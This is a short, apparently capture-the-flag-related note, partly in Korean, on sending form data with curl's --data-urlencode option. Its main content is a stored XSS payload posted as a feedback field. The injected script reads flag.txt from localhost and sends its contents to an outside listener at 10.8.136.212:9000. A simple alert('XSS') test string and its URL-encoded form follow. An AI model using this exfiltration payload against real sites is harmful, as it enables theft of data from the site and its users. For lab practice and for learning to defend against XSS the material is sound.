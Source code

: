 curl -X POST http://10.10.59.111:8080/submit_feedback -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://10.10.59.111:8080" -H "Referer: http://10.10.59.111:8080/submit_feedback" --data-urlencode "feedback=<script>fetch('http://127.0.0.1:8080/flag.txt').then(response => response.text()).then(data => {fetch('http://10.8.136.212:9000?flag=' + encodeURIComponent(data));});</script>"

### ✅ `--data-urlencode` (자동 인코딩됨)

```bash
curl -X POST http://example.com \
--data-urlencode "feedback=<script>alert('XSS')</script>"
```

→ 실제 전송 값은 다음처럼 인코딩됨:

```
feedback=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
```
